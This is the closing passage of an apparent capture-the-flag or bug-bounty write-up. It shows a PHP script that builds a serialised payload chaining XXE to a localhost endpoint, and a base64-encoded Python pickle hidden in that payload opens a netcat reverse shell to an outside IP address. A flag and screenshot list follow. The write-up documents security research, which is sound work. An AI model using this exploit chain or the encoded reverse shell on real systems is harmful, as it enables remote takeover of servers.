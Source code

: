 ```
print payload.encode("base64")
```


**Generating a serialised payload**
```
<?php
class ConfigFile{
		public $config_raw = '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://localhost:1337/update-status?status=Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAvdG1wL3NoZWxsOyBta25vZCAvdG1wL3NoZWxsIHA7IG5jIDEwNC4yNDguMjMwLjE5MyA4MDA4IDA8L3RtcC9zaGVsbCB8IC9iaW4vc2ggMT4vdG1wL3NoZWxsJwpwMQp0cDIKUnAzCi4="> ]><root>
	<toptext>&xxe;</toptext>
	<bottomtext>xd</bottomtext>
	<template></template>
	<type>text</type>
</root>';
	}

	echo base64_encode(serialize([new ConfigFile]));
?>
```

## Reverse Connection and flag 
- Use the base64 encoded payload of pickle and then use it to create a serialised data.
{F352614}
{F352616}

Flag : flag{cha1n1ng_bugs_f0r_fun_4nd_pr0f1t?_or_rep0rt_an_LF1}

Thanks
Ahmed!

## Impact

not required.

## Attachments
- Screen_Shot_2018-09-29_at_4.29.03_AM.png
- Screen_Shot_2018-09-29_at_4.40.12_AM.png
- Screen_Shot_2018-09-29_at_4.40.21_AM.png
- Screen_Shot_2018-09-29_at_4.46.28_AM.png
- Screen_Shot_2018-09-29_at_4.49.32_AM.png
- Screen_Shot_2018-09-29_at_5.25.11_AM.png
- Screen_Shot_2018-09-29_at_5.25.19_AM.png
- Screen_Shot_2018-09-29_at_6.03.01_AM.png
- Screen_Shot_2018-09-29_at_6.05.08_AM.png
